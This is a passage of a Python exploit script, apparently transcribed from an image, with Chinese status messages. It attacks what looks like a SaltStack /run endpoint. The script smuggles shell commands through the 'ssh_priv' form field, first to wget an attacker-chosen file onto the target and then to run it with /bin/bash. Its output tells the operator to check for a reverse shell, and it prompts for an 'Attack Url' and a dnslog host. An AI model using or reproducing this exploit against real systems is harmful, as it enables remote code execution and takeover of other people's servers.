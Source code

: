 ```python
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget {}".format(File_addr)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget {} \033[0m".format(File_addr))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 成功下载{} \033[0m".format(File_addr))
            POC_3(target_url, File_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|/bin/bash {}".format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 /bin/bash \033[0m".format(File_name))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 命令执行完毕，请查看是否反弹Shell \033[0m".format(File_name))
            sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[32m[o] 命令执行成功 \033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, dnslog)
```